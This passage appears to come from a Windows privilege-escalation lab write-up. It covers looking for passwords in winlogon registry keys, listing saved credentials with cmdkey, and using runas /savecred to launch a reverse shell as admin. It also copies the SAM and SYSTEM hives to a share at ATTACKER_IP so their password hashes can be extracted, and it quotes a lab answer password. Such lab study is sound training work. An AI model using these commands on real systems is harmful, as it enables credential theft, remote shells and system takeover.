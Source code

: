 ```console
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\UserDefaults
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\VolatileUserMgrKey
```

> _For some reason, sometimes the password does not get stored in the registry. If this is the case, use the following password as answer: `password123`_. 

I honestly am yet to see one writeup that actually managed to get the password in one of these queries, and everywhere I've looked, it just seems that people keep saying that this is an unresolved bug, so we're better off taking the password from the task's hint. Nevertheless, it's always worth checking for passwords in registries. 

### Passwords - Saved Credentials

To list any saved credentials, we use the following command:

```console
C:\Users\user> cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02nfpgrklkitqatu
    Local machine persistence

    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```

Since the creds for the admin user are saved ,we can make use of the `runas` command to execute the `reverse.exe` executable to get a reverse shell with SYSTEM privileges.

```console
C:\Users\user> runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

### Passwords - Security Account Manager

The SAM and SYSTEM files can be used for extracting user password hashes, which can then the cracked by a tool like `hashcat` for use in privilege escalation.

On our target machine, we can execute the following commands and send over the SAM and SYSTEM files to our machine. 

```console
copy C:\Windows\Repair\SAM \\ATTACKER_IP\kali\
copy C:\Windows\Repair\SYSTEM \\ATTACKER_IP\kali\
```

Get the `pycryptodome` (instead of `pycrypto` becuase that one gives an error: [fix](https://stackoverflow.com/questions/70705404/systemerror-py-ssize-t-clean-macro-must-be-defined-for-formats)) module and clone into `creddump7` to dump hashes from the SAM and SYSTEM files we fetched from the target machine.
